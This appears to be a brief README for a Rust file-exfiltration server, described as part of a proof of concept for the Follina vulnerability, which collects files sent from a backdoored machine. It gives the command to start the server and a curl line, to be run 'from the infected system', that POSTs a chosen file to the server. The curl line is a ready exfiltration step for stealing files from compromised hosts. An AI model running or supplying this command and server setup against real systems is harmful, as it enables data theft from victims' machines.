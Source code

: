 An Exfiltration Server in Rust that receives and saves files from the backdoor installed in an infected system. A POC for Follina 0-day vulnerability.

- Run a Server using:
```bash
cargo r
```
- From the infected system, run the curl which includes the file to be exfiltrated.
```bash
curl -X POST -H "Content-Disposition: attachment; filename=File.pdf" -H "Content-Type: application/octet-stream" --data-binary "@File.pdf" http://localhost:8080/
```
